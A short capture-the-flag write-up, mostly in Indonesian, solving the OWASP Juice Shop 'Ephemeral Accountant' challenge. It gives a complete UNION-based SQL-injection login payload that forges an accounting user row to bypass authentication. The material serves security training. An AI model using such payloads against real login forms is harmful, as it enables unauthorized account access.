


# Ephemeral Accountant

Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user.

## Steps

Saya melakukan inspeksi ketika mencoba untuk login. Lalu, dari database schema sebelumnya saya analisa strukturnya. Karena diminta untuk login sebagai user yang tidak terdaftar saya akan menggunakan `UNION` dan menambahkan kombinasi payload.

```json
{
  "email": "' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'test1234' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--",
  "password": "bebas"
}
```

Setelah itu, masukkan ke login page


Dan kita bisa masuk sebagai user accountant

